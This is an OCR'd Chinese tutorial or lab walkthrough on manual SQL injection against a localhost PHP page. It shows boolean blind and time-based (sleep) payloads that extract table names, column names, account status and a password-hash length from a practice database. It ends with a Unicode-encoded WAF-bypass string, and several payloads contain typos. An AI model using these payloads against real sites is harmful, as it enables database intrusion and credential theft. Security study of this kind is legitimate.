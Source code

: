 http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select table\_name from information\_schema.tables where table\_schema=‘stormgroup’ limit 1,1),1,1))=110 --+ n

http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select table\_name from information\_schema.tables where table\_schema=‘stormgroup’ limit 1,1),2,1))=111 --+ o

http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select table\_name from information\_schema.tables where table\_schema=‘stormgroup’ limit 1,1),3,1))=116 --+ t

http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select table\_name from information\_schema.tables where table\_schema=‘stormgroup’ limit 1,1),4,1))=105 --+ i

http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select table\_name from information\_schema.tables where table\_schema=‘stormgroup’ limit 1,1),5,1))=99 --+ c

http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select table\_name from information\_schema.tables where table\_schema=‘stormgroup’ limit 1,1),6,1))=101 --+ e

表二：notice

3.爆字段： http://127.0.0.1/new\_list.php?id=1 and length((select column\_name from information\_schema.columns where table\_name=‘member’ and table\_schema=‘stormgroup’ limit 0,1))=4 --+ 长度为4

http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select column\_name from information\_schema.columns where table\_name=‘member’ and table\_schema=‘stormgroup’ limit 0,1),1,1))=110 --+ n http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select column\_name from information\_schema.columns where table\_name=‘member’ and table\_schema=‘stormgroup’ limit 0,1),2,1))=97 --+ a http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select column\_name from information\_schema.columns where table\_name=‘member’ and table\_schema=‘stormgroup’ limit 0,1),2,1))=109 --+ m http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select dump from information\_schema.columns where table\_name=‘member’ and table\_schema=‘stormgroup’ limit 0,1),2,1))=101 --+ e 字段一：name

http://127.0.0.1/new\_list.php?id=1 and length((select column\_name from information\_schema.columns where table\_name=‘member’ and table\_schema=‘stormgroup’ limit 1,1))=8 --+

字段二：猜想为password 步骤同上 字段三 http://127.0.0.1/new\_list.php?id=1 and length((select column\_name from information\_schema.columns where table\_name=‘member’ and table\_schema=‘stormgroup’ limit 2,1))=6 --+ 长度为6 步骤同上，字段名为status 4.爆字段内容： 先爆status字段内容： http://127.0.0.1/new\_list.php?id=1 and length((select concat(status) from stormgroup.member limit 0,1))=1 --+ 长度为一 http://127.0.0.1/new\_list.php?id=1 andascii(substr((select concat(name) from stormgroup.member limit 0,1),1,1))=48 --+ 0 账户状态为0不可用

http://127.0.0.1/new\_list.php?id=1 and length((select concat(status) from stormgroup.member limit 1,1))=1 --+ 长度为一 http://127.0.0.1/new\_list.php?id=1 andascii(substr((select concat(name) from stormgroup.member limit 1,1),1,1))=49 --+ 1 账户状态为1可用

name字段 http://127.0.0.1/new\_list.php?id=1 and length((select concat(name) from stormgroup.member limit 1,1))=5 --+ 长度为5 http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select concat(name) from stormgroup.member limit 1,1),1,1))=109 --+ m

http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select concat(name) from stormgroup.member limit 1,1),2,1))= 111–+ o

…猜想库名为mo…

password字段 http://127.0.0.1/new\_list.php?id=1 and length((select concat(password) from stormgroup.member limit 1,1))=32 --+ 长度为32。。。。晕，太多了，上sqlmap，拿32位md5值。或者自己写个脚本

延时注入 在MySql延时注入里用到函数为：(与盲注基本差不多) sleep()延长查询时间，延长秒 if(exp1,exp2,exp3)如果exp1为假，那么执行exp2，否则执行exp3 ascii()==ord()将字符传转化为ASCII码 substr()==mid()截取字符串 这里使用延时注入方法继续注入，这里测试数据库用户长度使用： and if(length(user()>1),1,sleep(5)) 测试数据库用户长度，测试时发现页面返回未出现延时，证明数据库用户长度大于1，然后不断缩短其范围。 接下去就可以根据常规盲注的方法进行注入了，就是把exp1表达式换成盲注的payload，思路就是这种，下面就不一一测试了，我在这里只是想介绍延时注入的本质，以及MySql延时注入手工注入的方法。 总结： 基于时间的盲注也叫做延时注入，其实说白了就是根据服务器返回时候延时来判断我们注入的查询语句是否执行正确。出发点就是回到基于布尔的SQL盲注，也就是构造查询语句来判断结果是否为真。 在注入时，当页面不会有任何提示，无法判断是否注入成功时使用延时注入。 使用IF（查询语句，1，sleep（5）），即如果查询语句为真，那么直接返回结果；如果查询语句为假，那么过5秒之后返回页面。 反之： 例如： if(ascii(subtring(“hello”,1,1))=104,sleep(5),1) 可以看到，取出"hello"里的第一个字符串，也就是"h",判断他的ascii码是否为104(“h"的ascii码为104),如果是则延时5秒，反之不延时。 同样，我们可以在substring函数里面写SQL语句，提取出我们所要查的表名、列名，再用延时猜解出来。 例如： if(ascii(substring((select distinct concat(table\_name) FROM information\_schema.tables where table\_schema=database() limit 0,1),1,1))=116,sleep(5),1); 同样的，我们可以嵌入SQL语句带入查询，配合以上函数即可猜出表名第一个字母的ascii码为117，即"u”。 猜解列名也是差不多的用法。 Waf绕过 ’ order by 4 \u0026\u0023\u0033\u0039\u003b\u0020\u006f\u0072\u0064\u0065\u0072\u0020\u0062\u0079\u0020\u0034
